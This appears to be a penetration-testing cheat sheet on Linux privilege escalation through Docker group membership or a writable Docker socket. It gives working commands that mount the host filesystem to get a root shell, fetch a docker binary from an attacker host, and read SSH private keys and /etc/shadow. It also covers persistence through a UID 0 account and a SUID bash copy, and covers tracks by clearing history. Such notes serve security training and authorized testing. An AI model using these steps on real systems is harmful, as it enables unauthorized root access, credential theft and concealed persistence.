 ### 1. Technique Name:

Docker – Privilege Escalation via Docker Group / Socket Abuse
### 2. Summary:

Docker is a containerization platform that allows applications to run in isolated environments. If a low-privileged user is a member of the `docker` group or can interact with the Docker socket (`/var/run/docker.sock`), they can escalate privileges to root. This is because Docker containers can be launched with host-level access and mounted directories, including the full root filesystem.

Multiple escalation vectors exist:

- Launching a container with the host’s `/` directory mounted and chrooting into it.    
- Abusing shared volumes to extract sensitive files like SSH private keys.
- Using writable Docker sockets to spin up privileged containers.
### 3. Conditions / Requirements:

- User is in the `docker` group **OR**    
- Can write to the Docker socket (`/var/run/docker.sock`)
- Docker is installed and the daemon is running
- Ability to run Docker commands or upload a Docker client binary
- Base images (e.g., `ubuntu`) must be locally present or downloadable
### 4. Enumeration Steps:
#### A. Check group membership:

```bash
id
# Look for 'docker' in groups
```
#### B. Check socket permissions:

```bash
ls -l /var/run/docker.sock
```
#### C. List Docker images:

```bash
docker image ls
```
#### D. List running containers:

```bash
docker ps
```
#### E. Identify mount points (optional):

```bash
docker inspect <container_id>
```
### 5. Exploitation Steps:
#### A. Full Host FS Mount + chroot:

```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

Now you're in the host's root filesystem as root.
#### B. Abuse writable socket (manual docker binary if needed):

```bash
wget https://<yourhost>:443/docker -O docker
chmod +x docker
/tmp/docker -H unix:///app/docker.sock run -d --privileged -v /:/hostsystem main_app
/tmp/docker -H unix:///app/docker.sock exec -it <new_container_id> /bin/bash
cd /hostsystem/root
cat .ssh/id_rsa
```
#### C. Docker Volume Leak Enumeration:

If volumes are shared, you can inspect directories from within a container:

```bash
cd /hostsystem/home/<target_user>/
cat .ssh/id_rsa
```

Then use the key to SSH back into the host:

```bash
ssh <user>@<host IP> -i key.priv
```
#### D. Docker Group Direct Shell (if in group):

```bash
docker run -it --rm --privileged -v /:/mnt ubuntu chroot /mnt bash
```
### 6. Post-Exploitation Tips:

- Extract sensitive files:    
    - `/etc/shadow`, `/root/.ssh/id_rsa`, `config.php`, `.bash_history`
- Maintain access:
    - Add user to `/etc/passwd` with UID 0        
    - Drop a SUID shell:

```bash
cp /bin/bash /tmp/rootsh
chmod +s /tmp/rootsh
```

- Clean up logs and container:

```bash
history -c
docker ps -a
docker rm <container_id>
```

### 7. Example / Notes:

- If Docker is not in PATH or CLI is missing, upload statically compiled `docker` binary
- Common mounted socket path: `/var/run/docker.sock`
- You can enumerate Docker daemon remotely if it's exposed over TCP:

```bash
docker -H tcp://<target>:2375 ps
```

- Docker Compose or Desktop are GUI-based frontends, but underlying abuse remains the same
- Writable Docker socket = root access  
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Docker #Groups